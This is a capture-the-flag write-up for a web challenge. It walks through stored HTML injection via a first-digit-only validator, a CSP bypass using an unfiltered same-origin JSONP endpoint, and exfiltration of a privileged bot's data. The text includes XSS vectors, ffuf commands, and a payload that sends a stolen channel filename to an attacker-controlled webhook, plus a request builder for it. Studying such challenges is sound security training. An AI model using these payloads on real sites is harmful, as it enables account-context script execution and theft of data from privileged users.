








Loading /challenge gives a 3D CRT television rendered with Babylon.js, sitting in a garden.
There is a keypad with channels 1 to 10, a volume dial, and a small red warning triangle in the corner
labelled Report bad reception.
Before touching anything, I read the page source. The HTML is short, and the interesting parts are one
inline <script> and the markup for the TV itself. Two things stood out immediately.

<video> element ships with a working
absolute path. This one line is what makes the final step possible, because it tells us where the
station keeps its tapes.const VALID = /^[A-Za-z0-9._-]+\.mp4$/; function setTube(url) { tube.setAttribute('src', url); // overrides the <source> child tube.load(); } async function tune(n) { osd.textContent = 'CH ' + pad(n); const res = await fetch(`/api/channels/${n}/load`); const url = (await res.text()).trim(); if (VALID.test(url)) setTube(url); }
VALID forbids a slash, so the response can
never carry its own directory.And the report button, which sends whatever the on-screen display currently reads:
const channelId = osd.textContent.replace('CH', '').trim(); await fetch('/api/report', { method: 'POST', headers: { 'Content-Type': 'application/x-www-form-urlencoded' }, body: new URLSearchParams({ channelId }).toString() });
So there are two inputs into the server: a channel number in a URL path, and a channel number in a POST body. Everything that follows is the process of finding out how much each of them really accepts.
On page load the TV plays fine, because that <source> child is an absolute path.
The moment you press a channel key the picture dies. The reason is pure URL resolution:
loader returns static.mp4 document is at /challenge base directory / resolves to /static.mp4 → 404 file really at /static/streams/static.mp4
setTube() sets src on the <video> element, which overrides the
child <source>, and the value is relative to /challenge, so it lands at the
web root and 404s.
This is the challenge's title and its most visible defect, so it pulls hard as "the bug". It isn't. Repairing the picture is achievable and yields nothing. I lost time here before accepting that the broken TV is scenery: a puzzle that teaches you the URL layout you'll need at the very end.
Directory brute force plus a method oracle (405 vs 404 distinguishes "route exists, wrong verb" from "no route") gives a small surface:
| Route | Method | Notes |
|---|---|---|
/ | GET | rules page |
/challenge | GET | the TV |
/healthz | GET | returns ok |
/static/* | GET | assets, incl. /static/streams/ |
/api/channels/<id>/load | GET | the loader |
/api/report | POST | the complaint queue |
Then I fuzzed the loader's channel parameter to learn its validation rule:
| Request | Response | What it tells us |
|---|---|---|
/api/channels/1/load | 200 static.mp4 | baseline |
/api/channels/10/load | 200 static.mp4 | every public channel returns the same file |
/api/channels/11/load | 403 | 403, not 404. It's an authorisation decision |
/api/channels/01/load | 200 | value is cast to int, not string-compared |
/api/channels/²/load | 500 | unhandled exception |
That 500 is worth dwelling on. In Python, '²'.isdigit() returns True, but
int('²') raises ValueError. Getting a 500 instead of a 403 proves the check runs
isdigit() first and int() second:
if cid.isdigit() and 1 <= int(cid) <= 10: return stream_for(cid) return "channel not available", 403
Two conclusions, both load-bearing: channels above ten are refused, not absent, and the refusal is decided per-request, which means a different, more privileged requester might get a different answer.
Normal traffic from the page looks like this, a plain form post with a two-digit channel:
POST /api/report HTTP/2 Host: challenge-0826.challenges.intigriti.io Content-Type: application/x-www-form-urlencoded channelId=10 → HTTP/2 200 → {"id":"0afcfed9ccd3f877","status":"queued"}
Then I walked the validator. The rule turned out to be far weaker than it looks:
| Body | Response |
|---|---|
channelId=1 | 200 · queued |
channelId=abc | 400 · "channel ID must start with a digit" |
channelId=1abcdef | 200 · queued |
channelId=1<b>x</b> | 200 · queued |
channelId=1<svg onload=alert(1)> | 200 · queued |
The server checks only that channelId[0] is a decimal digit. Everything after that first
character is unvalidated. A single leading 1 buys arbitrary HTML into storage.
Worth noting what I didn't find, because it cost hours. There is also a parameter-source
difference: validation reads the POST body while a query-string channelId is accepted
without checks. I built an entire campaign around smuggling payloads through the query string.
The consumer reads the body. Every one of those payloads delivered the literal string 1.
The prefix rule above is the real door, and it is simpler.
Stored HTML only matters if something renders it. The cheapest test is a beacon that needs no JavaScript at all, just a plain image pointing at a listener I control:
channelId=1<img src="https://YOUR-OOB/hit">

channelId=1<img src="https://webhook.site/…"> is
one leading digit to satisfy the validator, then plain markup. Server answers
{"id":"9964f1bb4ef2480a","status":"queued"}.It landed within seconds:

HeadlessChrome/129 from 3.251.43.33
(AWS eu-west-1, Dublin), sec-fetch-dest: image,
sec-fetch-site: cross-site, and crucially referer: http://web/, an internal
origin. Our HTML is rendering on a page we cannot browse to ourselves.With a live DOM confirmed, the next question is what survives in it. I fired one report per vector, each pointing at a distinct path so the listener log itself is the result table:
| Vector | Fires | Sec-Fetch-Dest |
|---|---|---|
<img src> | yes | image |
<iframe src> | yes | iframe |
<link rel=stylesheet> | yes | style |
<style>@import</style> | yes | style |
<base href> | yes | · |
Everything that survives is markup that loads something. Nothing that runs anything
does: <img onerror>, <svg onload> and a cross-origin
<script src> were all sent the same way, each pointing at its own path, and none of
them ever reached the listener.
The obvious reading of that table is an HTML sanitiser with a tag allowlist that strips
on* handlers. I committed to it and spent a long time there:
<math><mtext><table><mglyph><style>,
<svg><style>, <noembed>, <xmp>,
<template>, <iframe srcdoc>, javascript: in
<object data>. All silent.@font-face with
unicode-range to leak which characters render, and attribute selectors to test attribute
contents. This worked: I pulled per-element character sets out of the reviewer's DOM with no
JavaScript. It just proved the flag was not on that page.<base href> hijacking. Accepted, and it does retarget relative URLs,
but only ones in the injected markup; the page's own resources resolve before our injection point.I diagnosed from a symptom, handlers don't fire, instead of testing the mechanism.
A sanitiser removes the tag. A Content-Security-Policy leaves the tag and refuses to run it.
My remote <script src> failed because it was cross-origin, not because it was
a script, and I never ran the one experiment that separates those two worlds: a
same-origin src.
Worth stating plainly: I never read the policy. None of the public endpoints send a
Content-Security-Policy header at all, and the reviewer's page lives at
http://web/, which is not reachable from outside. The policy is inferred from behaviour.
But the behaviour pins it down. A sanitiser with a tag allowlist would have removed the
<script> element; instead the tag survives and simply refuses to run when its
src is cross-origin. Point that same tag at the challenge's own origin, as the next step
does, and it executes. Handlers dead, remote scripts dead, same-origin scripts alive is the exact
signature of script-src 'self' with no 'unsafe-inline'.
Either way the practical conclusion is the same, and it reframes the problem completely. The question is no longer "find a tag the sanitiser missed". It is "find any URL on this origin that will return JavaScript I control", because whatever is enforcing this will trust it unconditionally.
So I went back to /api/, but looking for something specific. The stock API wordlist finds
nothing:
ffuf -u https://challenge-0826.challenges.intigriti.io/FUZZ \
-w SecLists/Discovery/Web-Content/api/api-endpoints.txt \
-mc 200,405
:: Progress: [295/295] :: Errors: 0 ::
(no results)
api/jsonpcallback but never plain api/jsonp.Knowing the policy is script-src 'self' changes what you are hunting for. You are no
longer looking for any endpoint. You are looking for endpoints that return
JavaScript, which is a much shorter list of words, and one you write yourself.
$ cat jsonp-wl.txt jsonp callback json jsonp_callback jsonapi data jsonpcallback config channels $ ffuf -u https://challenge-0826.challenges.intigriti.io/api/FUZZ \ -w jsonp-wl.txt -mc 200,405 jsonp [Status: 200]
HTTP/2 200 Content-Type: application/javascript; charset=utf-8 /**/ alert(1)({"channels": 10});
callback parameter is reflected verbatim into an executable response.
Textbook unfiltered JSONP.JSONP predates CORS. It solved a problem the Same-Origin Policy created: a page could not read JSON
from another origin, but it could always load a script from one, because
<script src> was never subject to the SOP. So servers wrapped their JSON in a function
call and let the caller name the function:
// the page declares a handler and loads the endpoint as a script function gotChannels(data) { console.log(data.channels); } <script src="/api/jsonp?callback=gotChannels"></script> // the server replies with executable JavaScript, not JSON gotChannels({"channels": 10}); // browser runs it, handler receives the data
The whole design rests on callback being a function name. This server never checks
that. Anything you put in the parameter is pasted straight into a response served as
application/javascript, so the endpoint will hand you any JavaScript you ask it for, from
the challenge's own origin.
script-src 'self' means "only run scripts from my own origin". It is an assertion about
where a script came from, never about what is in it. A reflective JSONP route turns the
origin itself into a source of attacker-controlled JavaScript, so the policy's own definition of trust
becomes the way through it. Any endpoint that echoes input into a JS response is a
script gadget, and one is enough.

callback supplied it still answers
/**/ ({"channels": 10});, served as JavaScript. Two gifts in one response: a script
gadget on the origin, and confirmation that the station knows about exactly ten public channels.This is the whole challenge in one response. /api/jsonp is same-origin, so:
policy script-src 'self' we inject <script src="/api/jsonp?callback=OURCODE"> browser asks is /api/jsonp same-origin? yes is it allowed by 'self'? yes result OURCODE executes as first-party code
The response body also leaks the station's own inventory: {"channels": 10}. Ten public
channels, and a loader that answered 403 rather than 404 above them.
Those two facts together say: channel 11 exists, and someone is allowed to see it.
The payload is one report. The leading digit satisfies the validator; the remainder is a same-origin script tag whose callback is our code:
1<script src="/api/jsonp?callback=
fetch('/api/channels/11/load')
.then(r => r.text())
.then(x => new Image().src =
'https://YOUR-OOB/R?d=' + encodeURIComponent(x))
"></script>
This is where most attempts break. The JavaScript is URL-encoded once so it survives as a query
parameter inside src="…", and then the whole payload is form-encoded again for the
request body. Encode once and the callback truncates at the first & or =;
forget the outer layer and the body parser mangles it.
Sent through Repeater as a normal form post:

channelId, 200 OK,
{"id":"0afcfed9ccd3f877","status":"queued"}. Note the body is otherwise an ordinary
form post, with no exotic headers and no auth.Why new Image().src rather than fetch() for the exfiltration? An image load is
a plain subresource request: no CORS preflight, no response reading, and it works under an
img-src that permits external hosts. We do not need to read our own beacon; we only need the
data to appear in its URL.

d parameter
carries the JSONP body ({"channels": 10}) and then the prize:
11:3b7c7029a954248116ad18348b2a51dad448400fe0b36a0098fa55dc0aef7437.mp4, the name of a
stream the server refuses to give us directly.Channel 11 is real. It is a stream with a 64-hex-character name, unguessable by brute force, which is why the authorisation bug matters: the name is the secret, and only a privileged session can ask for it.
Now the two halves of the challenge meet. The loader only ever returns a bare filename, because
VALID forbids slashes. The directory was disclosed in the page markup back at Step 01.
Join them:
directory /static/streams/ ← from <source> in the page filename 3b7c7029…aef7437.mp4 ← from channel 11 via the bot GET /static/streams/3b7c7029a954248116ad18348b2a51dad448400fe0b36a0098fa55dc0aef7437.mp4 200 OK · video/mp4

Here is the set, rebuilt. Press any button and you get what every solver got for the first hour. The dial has no eleven on it, but the tuner underneath will take any number you type.
Ten buttons, and one answer that isn't on any of them. The station said there were ten channels. It did not say ten was the last one.
The tuner above is a replica. This one is real. Put in a collector URL and it assembles the exact request, double-encoding and all. Paste it into a terminal, watch your inbox, and the bot hands you the filename of a channel you are not allowed to read.
Open webhook.site and paste the URL it gives you.
Run it and the server answers
{"id":"…","status":"queued"}. Then watch your webhook.site inbox: a
GET /F?c=… arrives within seconds, and the c parameter holds the
filename of channel 11.
Drop this in as the request body of a
POST /api/report with
Content-Type: application/x-www-form-urlencoded. Let Burp recalculate
Content-Length.
The stream itself needs no authorisation. Only the loader that names it does.